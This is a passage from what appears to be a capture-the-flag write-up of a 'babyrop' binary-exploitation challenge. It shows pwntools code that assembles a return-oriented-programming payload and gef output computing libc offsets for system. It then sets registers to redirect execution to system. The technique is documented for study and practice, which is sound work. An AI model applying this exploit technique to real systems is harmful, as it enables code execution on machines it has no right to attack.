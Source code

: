 ```python
payload += rcxpyld*1

payload += p64(POP_RCX)
payload += p64(0x404010)
payload += p64(ADD_EAX_0x2ec3_addrbp0x3debx)*18
payload += rcxpyld*9

payload += p64(POP_RCX)
payload += p64(0x404012)
payload += p64(ADD_EAX_0x2ec3_addrbp0x3debx)*2
payload += rcxpyld*1

payload += p64(PRINT_CALL)

log.info(f"total bytes of payload: {len(payload)}")
io.sendline(payload)

#...
```


### Chain-Chin-Cho

So we have now ability to set `ebx` register anything we want. The plan is simple from this point.

Getting offsets `__libc_system and libc_pop_ebx`

```python
(remote) gef➤  p 0x7ffff7e2ee21-0x7ffff7dab000
$1 = 0x83e21
(remote) gef➤  p 0x7ffff7e03750-0x7ffff7dab000
$2 = 0x58750
(remote) gef➤  
```



>The [[02- eth007 - babyrop Challange#^e2ee21-addr|0x0x7ffff7e2ee21]] first instruction `add rsp,0x18` The 2 null bytes for that.
>Set rbx difference between system and libc_pop_rbx
>Set rbp to 0x40404d 


```python
###...
        PRINT_CALL,
        0,
        0,
        SYSTEM-LIBC_POP_RBX, # new rbx
        0, # new r12
        0, # new r13
        0, # new r14
        0, # new r15
        0x404010+0x3d, # new rbp
###...
```
